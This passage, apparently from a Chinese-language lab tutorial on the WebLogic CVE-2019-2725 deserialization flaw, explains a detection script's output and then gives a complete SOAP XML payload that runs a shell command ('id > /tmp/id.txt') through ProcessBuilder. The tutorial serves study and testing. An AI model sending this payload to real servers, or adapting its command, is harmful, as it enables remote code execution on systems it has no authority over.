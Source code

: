 ```py

    # 调用漏洞探测函数
    exploit(dst_addr)
```

在命令行运行后显示如下：

![alt text](./image/1750682119517.png)

#### 含义：

* **Status Code: 200** 表示该路径存在，且可以正常访问。
* **Vuln Found** 表示路径返回了 WebLogic 的特征响应（如包含 welcome/web 字符），因此推测目标存在 **CVE-2019-2725（远程代码执行漏洞）** 的风险。



接下来，我们创建漏洞利用 Payload 文件（XML）

用编辑器创建文件 `payload.xml`：

```bash
sudo vim payload.xml
```


复制以下内容，回车保存退出：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java>
        <object class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3">
            <void index="0"><string>/bin/bash</string></void>
            <void index="1"><string>-c</string></void>
            <void index="2"><string>id > /tmp/id.txt</string></void>
          </array>
          <void method="start"/>
        </object>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```